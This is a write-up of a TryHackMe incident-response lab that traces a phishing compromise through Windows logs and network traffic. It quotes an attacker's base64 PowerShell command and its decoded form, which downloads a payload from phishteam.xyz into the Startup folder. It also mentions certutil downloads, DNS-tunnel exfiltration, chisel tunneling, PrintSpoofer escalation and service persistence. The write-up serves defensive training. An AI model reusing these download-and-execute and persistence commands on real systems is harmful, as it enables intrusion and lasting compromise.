# Tempest Room


This is a writeup for the Tempest room which can be found on TryHackMe.

If you want to try this room for yourself here is the link: https://tryhackme.com/room/tempestincident

This room is about analysing endpoints and network logs with the focus being on investigating artefacts on a compromised machine.


## Preparation - Tools and Artifacts

Before the investigation can begin, it's recommended to check file hashes of artefacts to verify that the file is expected as is. 
The room instructs us that the investigation files can be found in the **Incident Files** folder on the desktop.


We need to now check for the file hashes which can be done through powershell.


This room also recommends using either Timeline Explorer and/or Sysmon View for viewing logs, for this writeup I'm going to use Timeline Explorer.
In order to use Timeline Explorer we need to convert the provided sysmon event log file into a CSV file. This is accomplished by using EvtxEcmd.


## Initial Access - Malicious Document
Now we can begin with the real investigation. What we know right now is that there is a malicious document with a **.doc** attachment, the file was downloaded through **chrome.exe**, and the document executed a series of commands.

Using Timeline Explorer I tried searching for any instance of ".doc" in the logs.


This search reveals 13 logs have a string of text containing ".doc". Doing further digging into these logs I find this.


**free_magicules.doc** is the only .doc file that can be found in the logs. We can also see that the user that opened this file is named benimaru.

I decided to look at the proceeding logs and found a few DNS connections to phishteam.xyz wih the IP of 167.71.199.191


Looking further into the logs there was a big command that was executed.


This command is trying to execute a base64 string:

>JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==

I used 
[CyberChef](https://gchq.github.io/CyberChef/)
to decode the base64 string which gave me this:

>\$app=[Environment]::GetFolderPath('ApplicationData');cd "\$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr `http://phishteam.xyz/02dcf07/update.zip` -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;

This command is going to the Startup directory in windows on the logged-in user, uses Invoke Web Request (iwr) to download **update.zip** from **phishteam.xyz**, uses **-outfile** to specify the directory path, unzipz the contents of **update.zip** and then removes the original zip file.
What this achieves is a new file within the Startup directory, which is used to run programs on startup.

To see if I could quickly find out what CVE this is I tried using AI to search for the application used to run the command, the file directory used, and the powershell usage.


The **DogWalk** vulnerability that the AI described didn't match with what's been discovered so far, but the **Folina** exploit shows a perfect match as seen in the AI's summary.

## Initial Access - Stage 2 Execution

Time to look at how the payload executed.

from the previous section we know that the payload extracted files here:

>C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Since the logs are only tracking what specific actions happened on the computer, we cant just get the files and investigate that way. The previous command that was found used Powershell, so I tried searching for anything that used Powershell and I found this:



This command is using Powershell to run a command, uses the **-w hidden** parameter to hide in the background, **-noni** is used to tell powershell that no user input is expected, **certutil -urlcache -split** is used to specify a following URL to download a file, **-f** is used to overwrite a file incase an existing file has the same name as the downloaded file, and we see that powershell is installing **first.exe**:

>`http://phishteam.xyz/02dcf07/first.exe`

The following part **C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe** is used to tell powershell to download the file to the Downloads folder, followed by a semicolon which indicates to run the next parameter which in this case is the downloaded file. All of this was downloaded in the Startup folder of windows, so anytime the machine boots up into the benimaru account, all of what was just detailed will happen.

Looking at the sysmon logs we can find the SHA256 hash of the malicious binary downloaded:



>CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8

Looking at what happens when **first.exe** runs, we see it tries to establish a connection to `resolvecyber.xyz`



## Initial Access - Malicious Document Traffic

Now that we have several network related artefacts it's time to look at network events. For this section I'll be using Brim to investigate the network traffic.

Searching for how the network traffic began we can see the **phishteam** domain again, followed by a connection to the **index.html** page.




Looking deeper into the network traffic logs, I found that DNS tunneling was being used to exfiltrate data.



We can see that the data is being encoded in **base64** and is using the **q** parameter to indicate data being sent.

Looking closer into a random log I picked out from the data exfiltration list, we can also see that the user agent is using **Nim** to compile the binary.



## Discovery - Internal Reconnaissance

The attacker was able to exfiltrate data, and we know exactly what data was sent because we have the network traffic logs (encoded in base64).

I went through and decoded a few of the base64 queries and found this:



We can see that the attacker was able to find a password to benimaru: **infernotempest**

Decoding a few more chunks of base64 from the network traffic logs I then found this:


Port **5985** can be used to establish a remote shell because it is also the default port used for Windows Remote Management **(WinRM)** via HTTP

According to the TryHackMe notes in the lab, a reverse socks proxy was established to access internal services inside the machine. Going back to Timeline Explorer I tried searching for "socks" and I was met with this result:




Looking closer into this log I found the SHA256 hash of the binary used to establish the connection:



>8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451

I tried searching for the Hash on virustotal to see what would come up.



Looking through the details tab this binary goes by several names, though it seems to be commonly referred to as **chisel** because almost every variation has it in the name.

```
ihpsmxpuwy.exe
chisel.exe
ch.exe
chisel_windows.exe
8a99353662ccae117d2bb22efd8c43d7169060450be413af763e8ad7522d2451.exe
_8a99353662ccae117d2bb22efd8c43d7169060450be413af763e8ad7522d2451.exe
chisel
winch.exe
527C71C523D275C8367B67BBEBF48E9F
chisel_1.7.7_windows_amd64
TCP_UDP_Tunnel_over_HTTP_(Chisel).EXE
chisel_1.7.7_windows_amd64.exe
chisel86.exe
chisel64.exe
NA_chiselexe.exe
hvirt.exe
chisel2.exe
chisel.exe.bak
svhost.exe
chisel.SxxLTSJR.exe.part
c.exe
conhosts.exe
dev.exe
chiselw
1.exe
chisel_amd64.exe
```

## Privilege Escalation - Exploiting Privileges

Time to look for events after the reverse socks proxy connection was established.

Looking at the logs after this connection this powershell command was run.



This is downloading a file named **spf.exe**, and looking closer into it I found the SHA256 hash of the binary here:



>8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D

Searching for this hash on virus total gives us this result:



Looking at the details tab for what this binary is called we get an enormous list of names that this has been referred to as.

```
p7dd41a65.exe
sop.exe
FSSA_Document_1792952889.exe
PrintSpoofer64.exe
Bk3A39.tmp
psSP31789.txt
ps.exe
816ce080-f39e-11ea-8fc2-8afb7b4f4821
LogRhythmARM.exe
PrintSpoofer.exe
ps64.exe
PrintSpoofer64.exe.1
prtspr(1).exe
prtspr.exe
octet-stream
P64.exe
p.exe
tempPrintSpoofer64.exe
LogRhythmWeb.exe
print64.exe
SpooferBizone.exe
printspoofer_108da75de148145b8f056ec0827f1665
lol.exe
svchost.exe
windowsDefender123321.exe
printspoofer.exe
S64.exe
hcSmyg0I.exe.part
PrintSpoofer64(1).exe
_8524fbc0d73e711e69d60c64f1f1b7bef35c986705880643dd4d5e17779e586d.exe
8524fbc0d73e711e69d60c64f1f1b7bef35c986705880643dd4d5e17779e586d.EXPLOIT.exe
UnpackedMal98.exe
a4o8puh4-p6.exe
printspoofer64.exe
spooler.exe
check.exe
babaca.exe
8524fbc0d73e711e69d60c64f1f1b7bef35c986705880643dd4d5e17779e586d
AllWindows.Persistence.Wow64cpu.csv
f_0004e5
smartscreen.exe
spoofer.exe
prints64.exe
potato.exe
print.exe
PF64.exe
start.exe
3081d458-d0f7-481a-9bb2-be12aba4c645
minkay.exe
PS.exe
PrintSpoofer641.exe
dotnetserv.exe
PrintSpoofer64lkkk.exe
```

Like with the last hash we looked at on virus total, this binary can't figure out what it wants to be but judging from the list it commonly goes by **PrintSpoofer**. 

Doing more research into **PrintSpoofer** I found a GitHub link 
[here](https://github.com/itm4n/printspoofer).

According to the README it explains that it works by abusing **SeImpersonatePrivilege** from **LOCAL/NETWORK SERVICE** to **SYSTEM**.

*Then, the attacker executed the tool with another binary to establish a c2 connection. What is the name of the binary?*

Now that we know what **spf.exe** could be doing I tried searching for it in the logs, and we can see that it's used to download another binary named **final.exe**



We can see after **final.exe** is downloaded it runs and uses port **8080**



## Actions on Objectives - Fully-owned Machine

Now that the attackers have administrative privileges to the machine, they're likely going to add persistence techniques to keep what they now have.

For this section I'll be using Windows Event Logs.

There's a very good chance that the attackers created new user accounts, so I searched for the Windows Event ID **4720** because it indicates a successful creation of a new user.





Looking at the logs in Timeline Explorer and searching for the new user creation, we can see that the attacker forgot to add the **/add** parameter when creating a new user.



Looking closer into Timeline Explorer we can see that the **shion** user was added to the administrators group

 

*After the account creation, the attacker executed a technique to establish persistent administrative access. What is the command executed by the attacker to achieve this?*

Once the account was created we can see that the attacker runs this command.



This command uses **sc.exe** (Service Controls Manager) which is a windows command line tool used to configure Windows services. We can see that this command is instruction **sc.exe** to run **final.exe** whenever the system starts (with the usage of the attackers administrative privileges).

## Conclusion

Overall this was a really fun room to complete, there's alot going on, and you use several tools which is always great.